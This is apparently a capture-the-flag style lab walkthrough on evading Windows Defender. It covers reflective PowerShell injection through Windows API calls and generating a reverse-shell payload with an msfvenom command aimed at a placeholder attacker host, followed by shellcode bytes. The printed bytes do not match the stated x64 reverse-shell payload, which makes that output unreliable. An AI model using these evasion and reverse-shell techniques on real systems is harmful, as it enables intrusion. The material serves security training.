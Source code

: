 ```ad-info
- **Windows Defender**: A built-in security feature that detects and prevents malicious scripts, including PowerShell-based attacks, by scanning code at runtime. Common bypass methods for evading Defender include obfuscating scripts to disguise malicious content, making it harder for the software to recognize known patterns. Another technique is a reflective injection, where malicious code is loaded directly into memory, avoiding detection by signature-based defenses. We will cover the latter one in this task.  
- **Windows API**: The Windows Application Programming Interface (API) allows programs to interact with the underlying operating system, giving them access to essential system-level functions such as memory management, file operations, and networking. It serves as a bridge between the application and the operating system, enabling efficient resource handling. The Windows API is crucial because many exploitation techniques and malware rely on it to manipulate processes, allocate memory, and execute shellcodes. Common Windows API functions frequently used by malicious actors include `VirtualAlloc`, `CreateThread`, `WaitForSingleObject`, which we will also use in this task for exploitation.
- **Accessing Windows API through PowerShell Reflection**: Windows API via PowerShell Reflection is an advanced technique that enables dynamic interaction with the Windows API from PowerShell. Instead of relying on precompiled binaries, PowerShell Reflection allows attackers to call Windows API functions directly at runtime. This will enable them to manipulate low-level system processes, making it a primary tool for bypassing security mechanisms, interacting with the operating system, and executing code stealthily.
- **Reverse shell**: A type of connection in which the target (the machine you're trying to hack) initiates a connection back to your attacking machine (in this case, your machine will be the AttackBox).
```

![](gitbook/cybersecurity/images/Pasted%20image%2020241208144201.png)

### Generating Shellcode

***

_But Mayor Malware's minions, sneaky and sly,_

_Found his script and gave it a try._

_They tampered the code, changed port and IP,_

_Twisted his work with a sinister glee._

Let's learn how to generate a shellcode to see what it looks like. To do this, we will use a tool called `msfvenom` to get a reverse shell.

In the AttackBox, open the terminal and enter the command `msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKBOX_IP LPORT=1111 -f powershell` that will generate the shellcode. The output will look like the following.  You will require to replace the `ATTACKBOX_IP` with the IP of the AttackBox.

```shell
root@attackbox:~# msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKBOX_IP LPORT=1111 -f powershell
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of powershell file: 2259 bytes
[Byte[]] $buf = 0xfc,0xe8,0x82,0x0,0x0,0x0,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,
0x30,0x8b,0x52,0xc,0x8b,0x52,0x14,0x8b,0x72,0x28,0xf,0xb7,0x4a,0x26,0x31,0xff,0xac,
0x3c,0x61,0x7c,0x2,0x2c,0x20,0xc1,0xcf,0xd,0x1,0xc7,0xe2,0xf2,0x52,0x57,0x8b,0x52,
0x10,0x8b,0x4a,0x3c,0x8b,0x4c,0x11,0x78,0xe3,0x48,0x1,0xd1,0x51,0x8b,0x59,0x20,
0x1,0xd3,0x8b,0x49,0x18,0xe3,0x3a,0x49,0x8b,0x34,0x8b,0x1,0xd6,0x31,0xff,0xac,
0xc1,0xcf,0xd,0x1,0xc7,0x38,0xe0,0x75,0xf6,0x3,0x7d,0xf8,0x3b,0x7d,0x24,0x75,
0xe4,0x58,0x8b,0x58,0x24,0x1,0xd3,0x66,0x8b,0xc,0x4b,0x8b,0x58,0x1c,0x1,0xd3,
0x8b,0x4,0x8b,0x1,0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,
0xe0,0x5f,0x5f,0x5a,0x8b,0x12,0xeb,0x8d,0x5d,0x6a,0x1,0x8d,0x85,0xb2,0x0,0x0,
0x0,0x50,0x68,0x31,0x8b,0x6f,0x87,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x68,
0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x3c,0x6,0x7c,0xa,0x80,0xfb,0xe0,0x75,0x5,0xbb,
0x47,0x13,0x72,0x6f,0x6a,0x0,0x53,0xff,0xd5,0x63,0x61,0x6c,0x63,0x2e,0x65,0x78,0x65,0x0    
```
